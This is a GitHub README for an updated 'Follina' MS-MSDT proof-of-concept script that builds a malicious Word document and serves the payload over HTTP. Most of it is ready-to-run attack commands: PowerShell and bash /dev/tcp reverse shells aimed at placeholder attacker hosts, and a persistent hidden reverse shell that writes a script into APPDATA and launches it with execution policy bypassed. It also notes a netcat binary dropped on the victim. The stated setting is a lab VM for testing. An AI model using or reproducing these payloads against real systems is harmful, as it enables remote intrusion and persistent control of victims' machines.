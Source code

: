 # MS-MSDT "Follina" Attack Vector, Updated Version 2025

## Edited/Added:

- Fixed Options error in TCP Server log
- Added Copy of doc file to Http Server for directly download payload
- Added some Text to doc file for "maybe easy" bypassing Mark of the Web info banner
- Added new native PS Reverse Shell via `--reverse 5555` Parameter for bypassing nc problems
- Some extra stuff in codebase


## Run Script

- Download [Win10_21H2_English_x32.iso (Build 19044.1288)](https://archive.org/download/Win10_21H2_English_x32/Win10_21H2_English_x32.iso)
- Install/Run on Virtualbox or other VM
- Download Office 32bit (ODT not working for me at this point)
- `bitsadmin /TRANSFER O13DL /DOWNLOAD /PRIORITY high https://ia803209.us.archive.org/29/items/microsoft-office-2013-pro-plus-sp-1-english-32-bit_202005/Microsoft-Office-2013-Pro-Plus-SP1-English-32Bit.zip C:\office32.zip`
- Unzip and run follina.py

## Run

```bash
# Calc only
python3 follina.py -i eth0 -p 8008
```
---

```bash
# Multiple programs and MsgBox
python3 follina.py -i enp0s3 -p 8008 -c 'calc ; winver ; Add-Type -AssemblyName "System.Windows.Forms"; [System.Windows.Forms.MessageBox]::Show("This is Follina PoC Edit by suuhm 2025", "Follina PoC", [System.Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Warning, [System.Windows.Forms.MessageBoxDefaultButton]::Button1, [System.Windows.Forms.MessageBoxOptions]::DefaultDesktopOnly) ; notepad'
```

## Reverse Shells

```bash
# New Alter-Native Reverse shell
python3 follina.py -i enp0s3 -p 8008 -r 5555
```

--- 

```bash
ip a; nc -lnvp <WISHED_PORT> 

# Using native Reverse LOLBIN shell
python3 follina.py -i enp0s3 -p 8008 -c '$c=New-Object System.Net.Sockets.TCPClient("<REMOTE_IP_HOSTNAME>",<WISHED_PORT>);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex ". { $d } 2>&1"|Out-String)+"PS "+(pwd).Path+"> ";$sb=[text.encoding]::ASCII.GetBytes($r);$s.Write($sb,0,$sb.Length);$s.Flush()};$c.Close()'


# For mysys/cygwin systems etc...
python3 follina.py -i enp0s3 -p 8008 -c "export RHOST=<RHOST_IP>;export RPORT=5555;bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'"
```

---

### Persistent Reverse Shell
#### Still open after closing parent word process

```bash
python3 follina.py -i enp0s3 -p 8001 -c 'cd $env:APPDATA;echo "`$c=New-Object System.Net.Sockets.TCPClient(`"<REMOTE_IP_HOSTNAME>`",5555);`$s=`$c.GetStream();[byte[]]`$b=0..65535|%{0};while((`$i=`$s.Read(`$b,0,`$b.Length))-ne 0){`$d=(New-Object System.Text.ASCIIEncoding).GetString(`$b,0,`$i);`$r=(iex `". { `$d } 2>&1`" | Out-String)+`"PS `"+(pwd).Path+`"> `";`$sb=[text.encoding]::ASCII.GetBytes(`$r);`$s.Write(`$sb,0,`$sb.Length);`$s.Flush()};`$c.Close()">t.ps1;Start powershell -WindowStyle Hidden -ArgumentList "-ep Bypass -f t.ps1"'
```


---


![grafik](https://github.com/user-attachments/assets/6adefab8-b657-4e98-bcd8-37d83db8387a)



---

> John Hammond | May 30, 2022

--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
